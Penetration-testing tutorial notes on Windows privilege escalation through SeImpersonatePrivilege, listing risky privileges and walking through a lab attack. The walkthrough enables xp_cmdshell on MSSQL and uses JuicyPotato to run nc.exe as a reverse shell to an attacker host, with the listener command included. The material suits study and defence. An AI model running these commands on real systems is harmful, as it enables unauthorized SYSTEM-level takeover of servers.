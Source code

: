 | SeImpersonatePrivilege\*                                                                        | [Impersonate a client after authentication](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/impersonate-a-client-after-authentication)       | Administrators, Local Service, Network Service, Service | This policy setting determines which programs are allowed to impersonate a user or another specified account and act on behalf of the user.                                                                                                                                                                                                                |
| SeLoadDriverPrivilege                                                                           | [Load and unload device drivers](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/load-and-unload-device-drivers)                             | Administrators                                          | This policy setting determines which users can dynamically load and unload device drivers. This user right is not required if a signed driver for the new hardware already exists in the driver.cab file on the device. Device drivers run as highly privileged code.                                                                                      |
| SeRestorePrivilege                                                                              | [Restore files and directories](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/restore-files-and-directories)                               | Administrators                                          | This security setting determines which users can bypass file, directory, registry, and other persistent object permissions when they restore backed up files and directories. It determines which users can set valid security principals as the owner of an object.                                                                                       |

\* _User impersonation **allows you to temporarily sign in as a different user in your network**. Users with full impersonation permissions can impersonate all other users in their network and take any action, regardless of the impersonating user's own permission level._

Every process has a token that has information about the account that is running it. These tokens are not considered secure resources, as they are just locations within memory that could be brute-forced by users that cannot read memory. You need to have **SeImpersonate** privilege to utilize this token. With this token, it's possible to create a new Process like in the link [CreateProcessWithTokenW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw).

```
john@kali$ mssqlclient.py sql_dev@10.129.43.30 -windows-auth
SQL> enable_xp_cmdshell
SQL> xp_cmdshell whoami
SQL> xp_cmdshell whoami /priv
```

The current user is `nt service\mssql$sqlexpress01` and this user has the following enabled privileges :

* SeChangeNotifyPrivilege
* SeManageVolumePrivilege
* SeImpersonatePrivilege
* SeCreateGlobalPrivilege

### SeImpersonate and SeAssignPrimaryToken

**JuicyPotato**

Thus it's possible to use [JuicyPotato](https://github.com/ohpe/juicy-potato) to escalate privileges.

```
# attacker
nc -lnvp 8443
```

```
# target
SQL> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
```

| Flag | Meaning                             |
| ---- | ----------------------------------- |
| `-l` | The COM server listening port.      |
| `-p` | The program to launch.              |
| `-a` | The argument passed to the program. |
| `-t` | The createprocess call.             |
